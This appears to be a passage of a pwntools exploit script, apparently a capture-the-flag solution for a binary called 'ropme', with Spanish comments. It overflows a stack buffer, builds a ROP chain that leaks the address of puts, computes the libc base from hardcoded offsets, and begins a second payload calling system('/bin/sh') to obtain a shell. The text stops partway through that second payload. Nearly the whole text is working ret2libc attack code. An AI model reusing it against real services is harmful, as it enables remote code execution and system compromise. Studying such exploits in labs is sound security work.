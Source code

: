 ```python
        return process(["./ropme"] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Execute the target binary on the remote host'''
    if args.GDB:
        return gdb.debug([remote_path] + argv, gdbscript=gdbscript, ssh=shell, *a, **kw)
    else:
        return shell.process([remote_path] + argv, *a, **kw)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
# gdbscript = '''
# break *0x{exe.symbols.main:x}
# continue
# '''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

gadget_pop_ebx = pack(0x08048364)

# Primer payload. Leak de la direcciónde puts, y vuelta a main
payload = "A" * 0x70
payload+= pack(exe.symbols['puts']) # Llamada a puts
payload+= gadget_pop_ebx            # Retorno: Limpiamos 1 parámetro de la pila
payload+= pack(exe.got['puts'])     # Arg1 para la llamada a puts
payload+= pack(exe.symbols['main']) # Llamamos a main para una segunda vuelta

io = start()
io.sendline(payload)

io.recvline()
puts_leak = unpack(io.recv(4))
log.info("PUTS: 0x%08x", puts_leak)

# Los siguientes offsets se calculan con objdump:
# objdump -T libc.so | grep puts
if args.LOCAL:
    libc_base = puts_leak - 0x000690a0
    binsh = libc_base + 0x17eaaa
    system = libc_base + 0x0003e9e0
else:
    libc_base = puts_leak - 0x00066830
    binsh = libc_base + 0x1636a0
    system = libc_base + 0x0003f0b0

# Segundo payload. Llamamos a system("/bin/sh")
payload = "A" * 0x70
payload+= pack(system)
```